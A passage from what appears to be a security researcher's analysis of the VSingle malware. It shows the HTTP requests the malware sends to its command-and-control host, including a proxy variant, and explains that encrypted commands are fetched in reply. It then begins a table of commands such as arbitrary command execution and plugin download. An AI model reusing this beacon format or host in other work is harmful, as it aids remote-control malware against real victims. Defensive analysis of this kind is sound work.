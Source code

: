 GET /polo/[Unix time]/[random string].php?ufw=[Base64 data]&uis=[unique ID] HTTP/1.1
Host: maturicafe.com
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.5) Gecko/20091102 Firefox/3.5.5 (.NET CLR 3.5.30729)
Accept: text/html3,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache

[Base64 data] contains the Base64-encoded value of "[IP address]|[Windows version number]|[version]". As a response to this request, AES-encrypted data including commands is downloaded from the server. The encryption key is specified in Set-Cookie header in the response. 
VSingle also works with authentication proxy (Basic authentication). If the malware contains proxy settings, it can communicate in proxy environment as follows:

GET https://maturicafe.com/polo/[Unix time]/[random string].php?ufw=[Base64 data]&uis=[unique ID] HTTP/1.1
Host: maturicafe.com
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.5) Gecko/20091102 Firefox/3.5.5 (.NET CLR 3.5.30729)
Proxy-Connection: keep-alive
Proxy-Authorization: Basic [credential]
Pragma: no-cache
Cache-Control: no-cache

VSingle functions
VSingle has 8 simple functions as listed below:


Table 1: VSingle commands

Command number
Contents


1
Upload file


2
Set communication interval


3
Execute arbitrary command


4
Download/execute plugin


5
Update


6
Send malware information

